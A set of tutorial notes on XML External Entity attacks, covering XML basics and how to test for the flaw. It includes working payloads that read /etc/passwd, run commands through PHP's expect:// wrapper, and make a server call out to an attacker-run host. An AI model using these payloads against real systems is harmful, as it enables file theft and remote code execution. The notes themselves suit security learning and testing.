 # XML External Entity Attack

With this attack you can do:

* Read local files
* Denial-of-service
* Perform port-scan
* Remote Code Execution

Where do you find it:

* Anywhere where XML is posted.

* Common with file-uploading functionality. For files that uses XML, like: docx, pptx, gpx, pdf and xml itself.

### Background XML

XML is a markup language, like HTML. Unlike HTML is does not have any predefined tags. It is the user that create the tags in the XML object. XML is just a format for storing and transporing data. XML uses tags and subtags, just like html. Or parents, children, and syblings. So in that sense it has the same tree-structure as html.

To define a XML-section/document you need the following tag to begin:

```
<?xml version="1.0" encoding="UTF-8"?>
```

Example of valid XML:

```
<?xml version="1.0"?>
    <change-log>
        <text>Hello World</text>
    </change-log>
```

[https://www.owasp.org/index.php/XML\_External\_Entity\_\(XXE\)\_Processing](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing)

### Syntax rule

* Must have root element
* Must have XML prolog

```
<?xml version="1.0" encoding="UTF-8"?>
```

* All elements must have closing tag
* Tags are case-sensitive
* XML Attributes must be quotes
* Special characters must be escaped correctly.

| &lt; | &lt; | less than |
| :--- | :--- | :--- |
| &gt; | &gt; | greater than |
| & | & | ampersand |
| ' | ' | apostrophe |
| " | " | quotation mark |

* Whitespace is perserved in XML

### Attack

So if an application receives XML to the server the attacker might be able to exploit an XXE. It could be sent as a GET, but it is more likely that it is send in a POST. An attack might look like this:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

The element can be anything, it's simply used to set up the tags. The xxe is the "variable" where the content of /dev/random get stored. And by dereferencing it in the foo-tag the content gets outputted.This way an attacker might be able to read files from the local system, like boot.ini or passwd. SYSTEM means that what is to be included can be found locally on the filesystem.

In php-applications where the expect module is loaded it is possible to get RCE. It is not a very common vulnerability, but still good to know.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Even if the data is not reflected backto the website it is still possible to exfiltrate files and data from the server. The technique is similar to how you exfiltrate the cookie in a Cross-Site Scripting attack, you send it in the url.

### Test for it

* Input is reflected

```
<?xml version="1.0"?><!DOCTYPE Any [<!ENTITY xxe "testdata">]><add>&xxe;</add>
```

If "testdata" gets reflected then it is vulnerable to XXE. If it gets reflected you can try to exfiltrate the data the following way:

```
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

Another way to test it is to see if the server tries to download the external script. First you need to set up your own webserver, and then wait for it to connect.  This is known as an Out-of-Bound XXE.

```
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://192.168.1.101/fil.txt">]><test>&xxe;</test>
```

Automated tools for OOB XXE include [xxe-oob-exfil.py](https://gist.github.com/Reboare/49b309711222254eaf970e90388a7bdf).

### Exfiltrate data through URL

[https://blog.bugcrowd.com/advice-from-a-researcher-xxe/](https://blog.bugcrowd.com/advice-from-a-researcher-xxe/)

### References

[https://securitytraning.com/xml-external-entity-xxe-xml-injection-web-for-pentester/](https://securitytraning.com/xml-external-entity-xxe-xml-injection-web-for-pentester/)

[https://blog.bugcrowd.com/advice-from-a-researcher-xxe/](https://blog.bugcrowd.com/advice-from-a-researcher-xxe/)

[http://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html](http://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html)

[https://blog.zsec.uk/blind-xxe-learning/](https://blog.zsec.uk/blind-xxe-learning/)

